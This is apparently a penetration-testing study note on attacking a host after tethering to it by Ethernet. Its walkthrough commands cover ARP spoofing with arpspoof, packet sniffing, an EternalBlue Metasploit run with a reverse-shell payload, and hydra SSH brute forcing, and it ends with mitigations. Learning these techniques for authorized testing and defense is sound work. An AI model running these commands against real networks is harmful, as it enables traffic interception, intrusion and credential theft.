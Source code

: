 # Index
- [[Physical Access Attacks]]

Physically tethering a device via Ethernet to a target host refers to directly connecting your attack host to the target machine using a wired Ethernet cable. This method establishes a local, direct connection, bypassing potential wireless or segmented network defenses. When an attack host is physically tethered to a target, it opens the door for a variety of attack vectors that exploit the direct nature of the connection. Below, I'll break down how this approach works, how to perform the tethering, and what attacks can be performed.

# Ethernet tethering Process
Tethering via Ethernet involves the following steps:
- Physical Access: The attacker must gain physical access to the target host or a network switch where the target host is connected.
- Ethernet Cable: The attacker connects an Ethernet cable between the target host (or a network device) and the attack host.
- Network Interface Configuration: Once connected, the attacker configures their network interface to communicate with the target host. This could involve setting static IP addresses, spoofing MAC addresses, or configuring DHCP to request an IP address.

# Why This Attack Vector is Effective
- Bypass Network Segmentation: If the target host is located on a segmented network (separate from the attacker's wireless or remote networks), physically tethering allows the attacker to bypass segmentation, gaining direct access.
- Traffic Interception and Man-in-the-Middle (MITM) Attacks: A direct Ethernet connection enables the attacker to intercept, inspect, and manipulate network traffic in real-time. This is especially useful for Man-in-the-Middle attacks.
- Unmonitored Physical Connections: Many organizations may not monitor physical Ethernet ports on user workstations, making it easier for attackers to operate without detection.
- Access to Critical Systems: Many sensitive systems, such as industrial control systems (ICS) or operational technology (OT), may only be accessible via local connections, making tethering essential.

# Steps to Perform Ethernet tethering

#### Step 1: Physical Connection to the Target
The attacker connects an Ethernet cable between the attack host and the target host. This could be directly to the target's network interface or via a network switch that the target is connected to.

Example:  
```bash
# Attack Host Interface
ifconfig eth0 up  # Ensure the Ethernet interface is up
```

#### Step 2: IP Address Configuration
Once physically connected, the attack host must configure its network interface to communicate with the target host. This may involve DHCP or setting a static IP.

Static IP Assignment Example:
```bash
# Assign a static IP to the attack host interface
ifconfig eth0 <attack_ip> netmask 255.255.255.0 up
# Set the default gateway to the target's network gateway
route add default gw <gateway_ip>
```

Alternatively, the attacker may request an IP via DHCP:
```bash
# Request an IP from the network's DHCP server
dhclient eth0
```

#### Step 3: Network Scanning
With the physical connection established, the attacker can perform network discovery and scanning to identify reachable hosts, open ports, and network services.

Example with nmap:
```bash
nmap -sP <target_ip>/24  # Discover all live hosts on the network
nmap -p- <target_ip>     # Scan all ports on the target host
```

#### Step 4: Launch Attack Vectors

##### A. Man-in-the-Middle (MITM) Attack (ARP Spoofing)
With the attack host connected to the same physical network, ARP spoofing can be used to perform a Man-in-the-Middle attack.

Example using `arpspoof`:
```bash
# Poison the ARP cache of the target and the gateway
arpspoof -i eth0 -t <target_ip> <gateway_ip>
arpspoof -i eth0 -t <gateway_ip> <target_ip>
```

Once ARP poisoning is in place, the attacker can intercept traffic between the target host and the gateway.

##### B. Traffic Capture (Packet Sniffing)
Once tethered, the attacker can monitor network traffic using tools like `tcpdump` or `Wireshark`.

Example using `tcpdump`:
```bash
tcpdump -i eth0 -w capture.pcap
```

##### C. Lateral Movement
With direct access to the target host’s network, the attacker can attempt to exploit vulnerable services or credentials to pivot to other systems on the network.

Example using `msfconsole` for an SMB exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attack_ip>
set LPORT <attack_port>
exploit
```

##### D. Direct Remote Code Execution
If the target host is running a vulnerable service, the attacker can attempt to exploit it directly, given the physical proximity and unfiltered access.

Example:
```bash
# Exploit SSH vulnerability if weak credentials are used
hydra -l root -P /path/to/passwords.txt ssh://<target_ip>
```

# Ethernet tethering: Risks and Mitigations

Risks:
- Physical Security: If physical access to devices is not tightly controlled, an attacker can leverage this to bypass network defenses entirely.
- Network Segmentation Bypass: Ethernet tethering allows attackers to bypass firewalls, VLANs, and segmentation controls designed to isolate sensitive systems.
- Increased Attack Surface: Attackers can introduce rogue devices or malicious traffic onto a network, potentially compromising sensitive systems.

Mitigations:
- Physical Security Controls: Ensure that all critical systems are housed in secure locations with restricted access.
- Port Security: Enable MAC address filtering and 802.1X port-based authentication on all Ethernet ports to prevent unauthorized devices from connecting.
- Network Monitoring: Implement logging and monitoring for all physical connections to detect unauthorized access attempts.
- Segmentation Enforcement: Enforce network segmentation with firewalls and restrict access based on strict rules, even within local subnets.